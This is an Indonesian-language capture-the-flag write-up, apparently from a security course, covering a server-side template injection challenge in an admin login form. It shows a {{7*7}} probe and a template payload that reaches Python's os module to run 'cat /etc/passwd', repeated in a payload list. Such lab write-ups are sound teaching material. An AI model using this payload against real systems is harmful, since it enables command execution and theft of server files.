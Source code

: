 # SSTI 1

## Deskripsi Soal

Pada challenge ini, diberikan sebuah aplikasi login admin yang rentan terhadap **Server-Side Template Injection (SSTI)**.

![SSTI1](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d1/SSTI1.png)

## Identifikasi Kerentanan

Aplikasi menggunakan template engine yang tidak melakukan sanitasi input dengan baik, sehingga memungkinkan terjadinya SSTI.

## Langkah Penyelesaian

1. Buka aplikasi dan temukan form login.
   
3. Coba input payload SSTI sederhana, misal: `{{7*7}}` pada field username atau password.

![Login](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d1/SSTI1.1.png)

5. Jika output pada halaman berubah menjadi `49`, maka aplikasi rentan SSTI.

![Output](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d1/SSTI1.2.png)


5. Lanjutkan eksploitasi dengan payload lain, misal untuk membaca file:
   ```
   {{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}
   ```
6. Jika berhasil, Anda dapat membaca file sensitif pada server.
   
![Flag](https://github.com/masibelajar/KWA-A-2025/blob/main/week2/d1/SSTI1.3.png)

## Payload yang Digunakan

- `{{7*7}}`
- `{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}`